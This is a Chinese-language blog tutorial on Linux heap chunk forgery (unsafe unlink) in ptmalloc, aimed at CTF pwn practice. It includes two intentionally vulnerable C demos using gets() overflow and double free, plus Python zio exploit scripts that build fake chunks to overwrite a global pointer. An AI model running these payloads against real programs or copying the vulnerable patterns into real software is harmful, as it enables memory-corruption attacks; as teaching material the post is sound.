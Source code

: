 ```yaml
---
layout:     post
title:      Linux下堆块伪造技术
subtitle:   pwn
date:       2017-08-11
author:     Ytala
header-img: img/post-bg-re-vs-ng2.jpg
catalog: true
tags:
    - Pwn
---
```


> 正所谓前人栽树，后人乘凉。
> 
> 立志做pwn狗中web最好的
> 

借鉴下别人的文章，如有冒犯，还望多多包涵

# Linux下的堆块伪造
这是一个基本的堆利用技巧，很多堆利用的地方都会用到。比如double free。
这种利用方式的出现是由于unlink的check机制的出现。这里主要从堆溢出和double free两个角度谈一下。

## 原理
1.ptmalloc的相邻空块合并原则。
2.堆chunk本身的结构机制。

## 详解
堆chunk判断一个块是否为空仅仅依赖于相邻后块的**prev_size**和**最低flag位**。
如果在堆上构造合理的堆块结构，那么堆管理机制就会误以为我们的伪造的堆块是真正的空堆块。
当释放掉相邻的后块时（这个块是真的），就会触发空块合并。也就达成了堆块伪造的目的。

## 要求

```
1.有两个相邻的堆块
2.第一个堆块可溢出第二个
3.释放第二个堆，即可触发。
```
这种是最常见的利用，即有check的堆溢出利用。

或者

```
1.有一个已分配的堆
2.有一个指向堆上的可控指针
3.free参数可控
```
这种情况下，是在分配的一大块堆中强行构造出两块chunk。然后利用那个指向堆上的可控指针来实现free触发漏洞。
这其实是一种double free的利用方式，因为如果你分配了两块堆，然后把这两块堆都释放之后，这些内存会合并到top chunk中。当再次分配堆的时候，还是使用这些内存地址。

那么如果我们进行以下操作：


```
1.分配两个堆
2.释放掉这两个堆
3.分配一个可以包含住前面两个堆的大堆块
4.写入这个大堆块构造两个伪chunk
5.通过第2步中释放两个堆
```
这样对于初始的两个堆来说，就像是double free了，当然本质还是堆块伪造。
## 利用的效果
如果成功的使用了伪造堆，那么达到的效果是什么呢？首先，是不可能像unlink利用一样任意地址写了。
因为对于目前的ptmalloc来说，有如下check：
current->fd->bd!=current;
current->bd->fd!=current;
为了过掉这个检验我们会用一个指向堆块的全局指针的地址的一个偏移作为伪chunk的fd。
fd=ptr-12;
bd=ptr-8;
然后在断链的过程中，就会把**ptr**的值改成**&ptr-12**,感觉很鸡肋是吧？
毕竟费这么大力气只是把一个全局变量的值给改成了他的地址－0xC，但是这个东西确实是这么去利用的。
在CTF中会跟其他的漏洞或功能结合去使用。


## 两个演示的DEMO
为了具体的说明问题，这里写了两个demo演示效果。
### Demo1


```void *global[80];

void *global[80];

int main(void)
{
    void *p1,*p2;
    p1=malloc(200);
    p2=malloc(200);
    global[40]=p1;
    printf("before exploit:%x\n",global[40]);
    puts("read");//for debug
    gets(p1);//overflow
    free(p2);
    printf("after exploit:%x\n",global[40]);
    return 0;
}

```
这是对应于第一种堆溢出覆盖下一块堆的情况的，如果使用下面的exp就会发现global中malloc返回的地址已经变成了 global[40]本身的地址－0xC

```from zio import *
io=zio('./h1',timeout=9999)
#io.gdb_hint()
io.read_until('read')
sc=l32(0x0)+l32(0xc9)+l32(0x804A100-0xc)+l32(0x0804A100-0x8)+'a'*(200-16)+l32(0xc8)+l32(0xd0)
io.writeline(sc)
io.read()
```

### Demo2

```int *global[40];
int main(void)
{
  void *p1,*p2,*p3;
  p1=malloc(200);
  p2=malloc(200);
  global[20]=p1;
  free(p1);
  free(p2);
  p3=malloc(500);
  puts("get");//for debug
  gets(p3);
  free(p2);
  return;
}
```
这个Demo展示的是double free。可以看到对于p2指针来说确实是释放了两次。

```
from zio import *
io=zio('./h2',timeout=99999)
#io.gdb_hint()
io.read_until('get')
sc=l32(0x0)+l32(201)+l32(0x804a0b0-0xC)+l32(0x804a0b0-0x8)+'a'*(200-16)+l32(200)+l32(0x128)
io.writeline(sc)
io.read()
```
这个exp就可以实现利用，感觉这个exp的伪堆块构造要比上面Demo更复杂一些。这个exp我搞了好久，因为不知道为什么一直会触发free的check导致程序崩溃。后来查了一些资料终于明白了，必须要保证你分配的堆与你在其中构造的两个堆块的大小完全一致。
比方说我这里是malloc(500)，调试一下发现分配了504（鬼知道为什么），那么就是504-8-200=0x128，如果不跟分配的堆块边境符合的话就会触发check从而crash掉。


by:Ox9A82



